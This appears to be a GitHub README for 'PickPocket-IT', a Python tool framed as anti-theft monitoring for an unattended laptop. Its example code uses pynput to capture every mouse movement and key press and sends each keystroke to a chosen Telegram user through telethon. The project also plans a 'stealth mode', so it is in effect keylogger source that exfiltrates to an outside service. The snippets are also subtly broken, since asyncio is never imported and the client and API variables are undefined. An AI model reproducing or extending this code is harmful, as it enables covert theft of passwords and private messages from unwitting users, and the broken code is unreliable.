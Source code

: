 # 🕵️‍♂️ PickPocket-IT

**PickPocket-IT** is a Python script designed for monitoring and reporting specific events like **Mouse Movements**, **Key Presses**, and **Charger Plug/Unplug** actions to a target **Telegram user**. Perfect for discreetly tracking activity in public places, study halls, or personal environments where your stuff is left unattended.

---

## 🔧 Features
- **Mouse Movement Tracking**: Detects and reports mouse movements.
- **Key Press Tracking**: Captures key presses and sends them to your Telegram account.
- **Charger Detection**: Monitors charger plug/unplug events.
- **Telegram Notifications**: Sends real-time notifications to a specified Telegram user.

---

## 📋 Requirements

To run this script, you will need:
- **Python 3.12+** (Make sure Python is installed and added to PATH)
- **Required Python Libraries**:
    - `telethon`: For interacting with Telegram.
    - `pynput`: To monitor keyboard and mouse activity.
    - `psutil`: To detect system status like charger plug/unplug events.

Install all the required dependencies using the following command:

```bash
pip install psutil telethon pynput

⚙️ Setup & Usage
1. Clone the Repository
Start by cloning this repository to your local machine:

bash
Copy code
git clone https://github.com/yourusername/PickPocket-IT.git
cd PickPocket-IT
2. Install Dependencies
Install the required libraries using pip:

bash
Copy code
pip install psutil telethon pynput
3. Set Up Telegram Bot
Create a bot using BotFather on Telegram and get your API_ID, API_HASH, and the target Telegram user ID where you want the reports sent.
4. Run the Script
After configuring the script, simply run it:

bash
Copy code
python pickpocket.py
📄 Example Code
Here's a quick example of how the script works:

Monitor Mouse Movements:
python
Copy code
import time
from pynput.mouse import Listener
from telethon import TelegramClient

async def send_message(message):
    async with TelegramClient('session_name', api_id, api_hash) as client:
        await client.send_message('target_telegram_id', message)

def on_move(x, y):
    print(f"Mouse moved to ({x}, {y})")
    asyncio.run_coroutine_threadsafe(send_message("Mouse moved."), client.loop)

with Listener(on_move=on_move) as listener:
    listener.join()
Capture Key Presses:
python
Copy code
from pynput.keyboard import Listener

def on_press(key):
    print(f"Key {key} pressed.")
    asyncio.run_coroutine_threadsafe(send_message(f"Key {key} pressed."), client.loop)

with Listener(on_press=on_press) as listener:
    listener.join()
Detect Charger Plug/Unplug Events:
python
Copy code
import psutil

def monitor_charger():
    if psutil.sensors_battery().power_plugged:
        asyncio.run_coroutine_threadsafe(send_message("Charger plugged in."), client.loop)
    else:
        asyncio.run_coroutine_threadsafe(send_message("Charger unplugged."), client.loop)
🚀 How It Works
Mouse Movement: The script tracks the position of the mouse and sends a notification to Telegram whenever the mouse moves.
Key Presses: Every time a key is pressed on the keyboard, it sends a message with the key to the target Telegram user.
Charger Events: Monitors whether your charger is plugged in or unplugged and sends the status to your Telegram user.
🎯 To-Do / Future Enhancements
Add stealth mode to run the script in the background.
Include more event tracking features (e.g., file access, app switching).
Improve error handling for better stability and performance.
📝 License
This project is licensed under the MIT License - see the LICENSE file for details.

🤝 Contributing
Contributions are always welcome! Feel free to fork the repository, submit issues, and create pull requests. Please make sure to follow the coding standards and write tests for new features.

📬 Contact
For any issues or suggestions, please feel free to contact me via Email.
